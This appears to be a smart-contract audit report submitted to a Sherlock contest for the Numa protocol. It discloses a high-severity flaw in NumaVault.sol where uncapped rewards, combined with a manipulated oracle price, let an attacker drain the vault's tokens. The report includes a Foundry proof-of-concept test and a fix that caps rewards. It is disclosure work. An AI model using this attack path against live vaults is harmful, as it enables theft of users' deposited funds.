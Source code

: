 Refined Bone Bat

High

# Unbounded Rewards Extraction in NumaVault

### Summary

The missing cap on rewards in `NumaVault.sol` will cause a complete depletion of the vault’s liquidity for all users as an attacker will exploit inflated oracle prices to extract excessive rewards.

### Root Cause

In NumaVault.sol:336, the rwd value calculated in the `rewardsValue` function is not capped to the vault’s available balance. This allows the rewards transferred to `rwd_address` in extractInternal to exceed the vault’s liquidity, leading to its complete depletion.
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaVault.sol#L336
- No check ensures that rwd is less than or equal to the vault’s available balance.

NumaVault.sol:360:
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaVault.sol#L360
- Transfers the entire `rwd` without verifying liquidity sufficiency.


### Internal pre-conditions

1-The last_lsttokenvalueWei is set to a value significantly lower than the current oracle price (currentvalueWei), creating a large diff in price.
2-The rwd_threshold is set to a value smaller than the calculated rwd.
3-The vault contains sufficient lstToken liquidity to execute the initial transfer.


### External pre-conditions

1-The oracle used by NumaVault needs to provide a significantly higher price for `lstToken` than the last recorded value (last_lsttokenvalueWei).
(Example: Oracle price goes from 1e18 to 1000e18 within 24 hours.)

2-The attacker controls or influences `rwd_address`.

### Attack Path

The attacker manipulates the price returned by the oracle to inflate the value of `lstToken` (e.g., by flash loaning large amounts of collateral or exploiting oracle design weaknesses).

Then trigger Reward Extraction:
- Wait until 24 hours have elapsed (satisfying the time condition in `extractRewardsNoRequire`).
- Call a function that triggers `extractRewardsNoRequire` (e.g., buy or sell).

Then extract Excessive Rewards:
- The` rwd` is calculated using the inflated oracle price, resulting in a disproportionately large reward value.
- The SafeERC20.safeTransfer call sends this unbounded reward amount to `rwd_address`, depleting the vault’s lstToken liquidity.

### Impact

Affected Party: All users of the NumaVault.

Loss: The vault’s lstToken balance is fully depleted, causing:
- 1.Failure of buy, sell, and liquidation functions due to lack of liquidity.
- 2.Potential insolvency of the protocol, as user funds cannot be redeemed.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/Test.sol";
import "../contracts/NumaVault.sol";
import "../contracts/mocks/MockOracle.sol";
import "../contracts/mocks/MockToken.sol";

contract NumaVaultTest is Test {
    NumaVault vault;
    MockOracle oracle;
    MockToken lstToken;
    address attacker = address(0x123);

    function setUp() public {
        // Deploy mock dependencies
        lstToken = new MockToken("LST Token", "LST", 18);
        oracle = new MockOracle(1e18); // Initial price of 1
        vault = new NumaVault(
            address(lstToken),
            address(lstToken),
            18,
            address(oracle),
            attacker,
            0,
            0
        );

        // Fund the vault
        lstToken.mint(address(vault), 1_000e18);
    }

    function testUnboundedRewardExtraction() public {
        // Manipulate oracle price to inflate reward value
        oracle.setPrice(10_000e18); // Set price to 10,000

        // Simulate time passage to satisfy the 24-hour condition
        vm.warp(block.timestamp + 1 days);

        // Trigger rewards extraction
        vault.extractRewardsNoRequire();

        // Assert that the vault's liquidity is drained
        uint256 attackerBalance = lstToken.balanceOf(attacker);
        uint256 vaultBalance = lstToken.balanceOf(address(vault));

        console.log("Attacker Balance:", attackerBalance);
        console.log("Vault Balance:", vaultBalance);

        assertEq(attackerBalance, 1_000e18);
        assertEq(vaultBalance, 0);
    }
}

```
Vault holds 1,000 LST tokens; oracle price is 1e18.

- After Exploit: Attacker drains all 1,000 LST tokens from the vault. Vault balance is 0.

### Mitigation

- Cap Rewards to Available Liquidity:
Ensure that the rwd value cannot exceed the vault’s balance:

```solidity

uint256 availableBalance = lstToken.balanceOf(address(this));
rwd = rwd > availableBalance ? availableBalance : rwd;

```
- Add this check in extractInternal.